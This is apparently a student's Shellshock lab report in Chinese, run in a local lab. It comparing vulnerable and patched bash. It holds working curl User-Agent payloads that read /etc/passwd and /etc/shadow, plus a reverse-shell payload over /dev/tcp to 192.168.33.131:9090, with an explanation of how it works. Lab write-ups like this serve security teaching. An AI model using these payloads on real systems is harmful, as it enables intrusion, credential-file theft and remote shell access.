




# Shellshock Attack Lab

> Author: 1120162015 李博

## Task1: Experimenting with Bash Function 

### /bin/bash_shellshock

如下图，使用`bash 4.2.0`版本。

结果如下，可以看到父进程定义的函数被成功传递到子进程，存在`shellshock`漏洞。

###  /bin/bash

如下图，使用`bash 4.3.46`版本。

可以看到在父进程中定义的函数并没有传递到子进程，

## Task2: Setting up CGI programs

设置如下图

## Task3: Passing Data to Bash via Environment Variable

结果如下图

远程用户之所以能获取到系统当前shell的环境变量信息，是因为通过`curl`命令访问http://localhost/cgi-bin/myprog.cgi，而`myprog.cgi`的功能就是打印当前shell进程的环境变量。

## Task4: Launching the Shell shock Attack

### Step1: 获取秘密文件内容(/etc/passwd)

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi`

### Step2: 获取`/etc/shadow`内容

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/shadow" http://localhost/cgi-bin/myprog.cgi`

结果如下

可以看到**没有成功获取**。

于是打印一下执行`/bin/cat /etc/shadow`时的`whoami`。

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /usr/bin/whoami" http://localhost/cgi-bin/myprog.cgi`

可以看到结果为`www-data`，这就是我们执行`/bin/cat /etc/shadow`失败的原因，因为获取`/etc/shadow`的内容需要`root`权限。

## Task5: Getting a Reverse Shell via Shellshock Attack

这里使用本机localhost当做远程服务器，ip为`192.168.33.131`。

首先执行命令`curl -A "() { echo 233; }; echo Content_type:text/plain; echo; /bin/bash_shellshock -i > /dev/tcp/192.168.33.131/9090 0>&1" http://localhost/cgi-bin/myprog.cgi`。

这行命令的关键在于`/bin/bash_shellshock -i > /dev/tcp/192.168.33.131/9090 0>&1`，解释如下。

> `/bin/bash_shellshock`代表有漏洞的bash
>
> `-i`代表可交互式的shell
>
> `>` 代表将bash的标准输出重定向至`192.168.33.131`的9090端口
>
> `0>&1`代表将标准输入重定向至标准输出，而在上面bash的标准输出已重定向至tcp连接，故这里的标准输入也指向tcp连接。

综上，实现bash的输出显示在tcp连接中，并且bash的输入从tcp连接获取，达到reverse shell的目的。

结果如下

## Task6: Using the Patched Bash 

### Step1: Passing Data to Bash via Environment Variable

结果如下，和`bash_shellshock`的输出无差异，因为该命令与是否有`shellshock`漏洞无关。

### Step2: Launching the Shell shock Attack

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi`。

可以看到并没有执行`/bin/cat /etc/passwd`，因为bash中`shellshock`漏洞被修复。

### Step3: Getting a Reverse Shell via Shellshock Attack

执行命令`curl -A "() { echo 233; }; echo Content_type:text/plain; echo; /bin/bash -i > /dev/tcp/192.168.33.131/9090 0>&1" http://localhost/cgi-bin/myprog.cgi`。

可以看到反弹shell也失败了，原因在于bash中`shellshock`漏洞被修复，无法执行额外的命令。

